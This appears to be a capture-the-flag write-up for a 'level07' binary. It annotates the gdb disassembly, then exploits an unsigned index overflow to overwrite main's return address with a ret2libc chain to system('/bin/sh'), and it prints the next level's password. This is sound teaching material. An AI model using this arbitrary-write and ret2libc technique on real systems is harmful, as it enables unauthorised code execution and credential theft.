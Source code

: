 ```gdb
0x08048630  store_number
0x080486d7  read_number
0x08048723  main
```

it loads the env as argv
```
<main+22>:	mov    0x10(%ebp),%eax

(gdb) p **(char ***)($ebp+0x10)
$19 = 0xffffd8be "SHELL=/bin/bash"


(gdb) p **(char ***)($ebp+0xc)
$18 = 0xffffd8a2 "/home/users/level07/level07"

(gdb) x/10s 0xffffd8a2
0xffffd8a2:	 "/home/users/level07/level07"
0xffffd8be:	 "SHELL=/bin/bash"
0xffffd8ce:	 "TERM=xterm-256color"
0xffffd8e2:	 "SSH_CLIENT=10.12.10.15 49862 4242"
```

```
 0x08048878 <+341>:	lea    0x1b8(%esp),%eax
 0x08048882 <+351>:	call   0x80484a0 <fgets@plt>
   
 <main+413>:	mov    $0x8048d5b,%eax  "store"
 <main+427>:	repz cmpsb
 
 The test instruction is commonly used to check whether a value is zero or not
 0x080488df <+444>:	test   %eax,%eax
 0x080488e1 <+446>:	jne    0x80488f8 <main+469>         jump to compar if it is 0 <+478>:	mov    $0x8048d61,%eax "read"
 0x080488e3 <+448>:	lea    0x24(%esp),%eax
 0x080488ea <+455>:	call   0x8048630 <store_number>
 
 <main+520>:	call   0x80486d7 <read_number>
   
```
 instruction `rep stos %eax,%es:(%edi)` is performing a "repeat string operation"
 
 that stores the value of the eax , ecx times at the memory location pointed to by edi.
 
 commonly used to initialize memory locations to a specific value

```
at <main+110>:	lea    0x24(%esp),%ebx
we insialize the buffer[0x64/100] to 0

this buffer is passed to store()

<main+448>:	lea    0x24(%esp),%eax
<main+455>:	call   0x8048630 <store_number>   store_number(&buffer)



<main+513>:	lea    0x24(%esp),%eax
<main+520>:	call   0x80486d7 <read_number>    read_number(&buffer)
```

debbugging
check for more [Ressources/magic_numbers.md](Ressources/magic_numbers.md)

<pre><code>

break at <main+351>:	call   0x80484a0 <fgets@plt>

Input command: store

store_number(array[100])
{
  
  Initialize two local variables with zeros.
  <+6>:     movl   $0x0,-0x10(%ebp)
  <+13>:    movl   $0x0,-0xc(%ebp)
  
  <store_number+33>:	call   0x80485e7 <get_unum>
  <store_number+38>:	mov    %eax,-0x10(%ebp)
  
  get_unum()
  {
        <get_unum+26>:	mov    $0x8048ad0,%eax    "%u"
        <get_unum+31>:	lea    -0xc(%ebp),%edx
        <get_unum+41>:	call   0x8048500 <__isoc99_scanf@plt>      scanf("%u")
  }
  
  number at -0x10(%ebp)
  index  at -0xc(%ebp)
  
  
  Perform a division-by-3 check using multiplication by the magic number 0xaaaaaaab.
  If the remainder is non-zero, skip the following block.
  
  0xaaaaaaab,%edx  (a repeating pattern of 10101010101010101010101010101011 in binary / 2863311531)
  Convert each hex digit to 4 binary digits
  check for more  [Ressources/magic_numbers.md]
  
  <store_number+65>:	mov    $0xaaaaaaab,%edx 
  <store_number+72>:	mul    %edx   ==> eax = eax * edx
  <store_number+74>:	shr    %edx  right-shifting the value of edx by one     edx = edx >> 1

If the division-by-3 check passed, check if the most significant byte of the first local variable is equal to 0xb7. If not, skip the following block.

0x0804868a <+90>:    mov    -0x10(%ebp),%eax
0x0804868d <+93>:    shr    $0x18,%eax
0x08048690 <+96>:    cmp    $0xb7,%eax
0x08048695 <+101>:   jne    0x80486c2 <store_number+146>


If either of the checks failed, store the first local variable into an array pointed to by the first function argument, withan index specified by the second local variable. Set the return value to 0.

0x080486c2 <+146>:   mov    -0xc(%ebp),%eax        index
0x080486c5 <+149>:   shl    $0x2,%eax              index * 4
0x080486c8 <+152>:   add    0x8(%ebp),%eax         &array + index
0x080486cb <+155>:   mov    -0x10(%ebp),%edx       value
0x080486ce <+158>:   mov    %edx,(%eax)            *(array + index) = value
0x080486d0 <+160>:   mov    $0x0,%eax


}
</code></pre>

  
```
if (check1 == 0 || check2 == 0) 
{
    int* array_ptr = *(int**)(ebp + 0x8);
    int value = *(int *)(ebp - 0x10);
    int index = *(int *)(ebp - 0xc);
    *(array_ptr + (index * 4)) = value;  ==> array[index] = value
    
    return 0;
}
```

```

(gdb) x/d $ebp-0x10     value
0xffffd508:     123

(gdb) x/d $ebp-0xc      index
0xffffd50c:     7 
 
(gdb) x/x $ebp+8        array_ptr
0xffffd520:    ===> 0xffffd544


 mov    -0xc(%ebp),%eax    eax = 7
 shl    $0x2,%eax          eax = 7 * 4 = 28
 add    0x8(%ebp),%eax     eax = 0xffffd544 + 28 = 0xffffd560
 mov    -0x10(%ebp),%edx   edx = 123
 mov    %edx,(%eax)        x/d 0xffffd560 = p  *(int *)0xffffd560 = 123
```

so We will overwrite the main return address using the store function.


b *main+455  // store

b *main+520  // read

where the array_ptr is located when value retrieval
```
<read_number+40>:	add    0x8(%ebp),%eax
(gdb) x/x $ebp+8
0xffffd500:	0xffffd524 <==

0xffffd524 + 7*4 = 0xffffd540
p *(int *)0xffffd540 = 123
```
find main eip
```
info frame
eip at 0xffffd6ec

(gdb) p/d 0xffffd6ec - 0xffffd524 = 456 / 4 = 114

114 / 3 = 38
```
so this index cannot be inserted directly to the program


we will go for Integer overflow attack since the index is stored by scanf as %u
```
114 in binary
printf %032d 1110010
00000000000000000000000001110010
since the index is `shl by $0x2` will get rid of the 2 MSB
10000000000000000000000001110010 = 2147483762
```
```
(gdb) find 0xf7e2c000 , 0xf7fcc000 , "/bin/sh"
0xf7f897ec

      114               115                116
  2147483762            115                116  
[   &system  ] + [ &ret_of_system ] + [  &bin_sh   ]
[ 0xf7e6aed0 ] + [      aaaa      ] + [ 0xf7f897ec ]
[ 4159090384 ] + [   1633771873   ] + [ 4160264172 ]


Input command: store
 Number: 4159090384
 Index: 2147483762
 
Input command: store
 Number: 1633771873
 Index: 115
 
Input command: store
 Number: 4160264172
 Index: 116

Input command: quit

$ pwd
/home/users/level07
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

we could skip 115 the return of system, garbage value
```
Input command: store
 Number: 4159090384
 Index: 2147483762

Input command: store
 Number: 4160264172
 Index: 116

Input command: quit

$ pwd
/home/users/level07
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

